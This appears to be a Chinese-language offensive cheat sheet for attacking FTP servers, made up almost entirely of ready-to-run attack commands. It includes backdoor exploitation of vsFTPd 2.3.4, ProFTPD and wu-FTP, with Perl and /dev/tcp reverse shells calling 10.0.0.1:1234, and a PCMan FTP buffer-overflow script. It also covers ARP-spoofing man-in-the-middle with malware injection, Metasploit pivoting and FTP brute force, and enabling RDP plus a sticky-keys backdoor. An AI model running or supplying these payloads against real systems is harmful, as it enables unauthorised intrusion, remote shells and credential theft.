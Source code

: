 # FTP服务

## 弱口令

自动化匿名扫描
```bash
nmap --script ftp-* -p 21 IP地址
```

弱口令字典

[FTP弱口令](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%9B%9B%E7%AB%A0/FTP/%E5%BC%B1%E5%8F%A3%E4%BB%A4.txt)

## FTP后门

1.vsFTPd 2.3.4

user = msfadmin:)

pass = 任意

```bash
nc [IP地址] 6200
```

使用Metasploit
```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

2.ProFTPD 1.3.3c

向FTP服务器发送以下命令
```bash
SITE CPFR /etc/lib/tmp/<shell_code>
```

替换shell_code为想要在目标上执行的shell代码，如建立反向shell
```bash
SITE CPFR /etc/lib/tmp/`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,pack("ScA*",2,inet_aton($i),$p))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

这将执行一个Perl脚本，建立与10.0.0.1:1234的反向shell连接

发送命令执行shell代码
```bash
SITE CPWD /etc/lib/tmp
```

3.wu-FTP 2.6.2

向FTP服务器发送以下命令触发后门
```bash
DEBUG
```

发送以下命令来执行shell
```bash
SITE exec <command>
```

生成反向shell
```bash
SITE exec /bin/sh -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

## 缓冲区溢出

PCMan's FTP Server 2.0.0

exp.py
```python
import socket

# 目标FTP服务器的IP地址和端口号
target_ip = "192.168.1.100"
target_port = 21

# 创建一个socket连接到FTP服务器
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((target_ip, target_port))

# 接收FTP服务器的欢迎消息
response = client.recv(1024)
print(response)

# 构造溢出攻击的payload
# 这里的'A' * 2003 是用来填充缓冲区直到达到EIP的位置
# 'B' * 4 是用来覆盖EIP的值，这个值应该是一个jmp esp的地址
# 'C' * (2500-2003-4) 是用来填充剩余的缓冲区
# 实际利用时，'B' * 4 部分应替换为jmp esp的地址，后面跟上shellcode
buffer = "A" * 2003 + "B" * 4 + "C" * (2500-2003-4)

# 发送构造的溢出攻击payload
client.send("USER " + buffer + "\r\n")
response = client.recv(1024)
print(response)

# 关闭连接
client.close()
```

## 中间人

1.欺骗证书验证

ARP欺骗
```bash
arpspoof -i eth0 -t 目标IP地址 网关IP地址
```

生成伪造证书
```bash
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

代理服务器
```bash
mitmproxy --mode transparent --ssl-insecure --certs *=server.pem
```

路由转发
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

2.纂改数据传输

ARP欺骗
```bash
arpspoof -i eth0 -t 目标IP 网关IP
```

查看FTP流量
```bash
tcpdump -i eth0 port 21
```

纂改
```bash
ettercap -T -M arp:remote /目标IP// /网关IP//
```

注入恶意文件
```bash
mitmproxy -i 8080 -r "inject /path/to/malware"
```

3.密码窃取

ARP欺骗
```bash
arpspoof -i eth0 -t 192.168.8.124 192.168.8.1
```

## FTP反弹

```bash
PORT 172,32,80,80,0,8080
EPRT |2|172.32.80.80|8080|
```

使用LIST或RETR /file/in/ftp（仅21端口）检测响应

## FTP隧道

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -L 本地端口:FTP服务器地址:FTP端口 SSH用户@SSH服务器地址
```

## FTP枢轴

```bash
ifconfig
出现两个网络接口
192.168.18.1
192.168.8.1
```

添加默认路由
```bash
use post/multi/manage/autoroute
set session 1
exploit
```

扫描系统内部网络主机
```bash
use post/multi/gather/ping_sweep
set rhosts 192.168.8.1/24
exploit
```

扫描开放端口
```bash
use auxiliary/scanner/portscan/tcp
set ports 21
set rhosts 192.168.8.165
set threads 10
exploit
```

暴力破解获取FTP用户名密码
```bash
use auxiliary/scanner/ftp/ftp_login
set rhosts 192.168.8.165
set user_file /root/user.txt
set pass_file /root/pass.txt
set stop_on_success true
exploit
```

开启RDP
```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

发起粘滞键攻击
```bash
use post/windows/manage/sticky_keys
set session 1
exploit
```

另起终端连接
```bash
rdesktop 192.168.8.166

键入五次Shift打开命令提示符
start iexplore.exe
ftp://192.168.8.156
填写FTP凭据
```
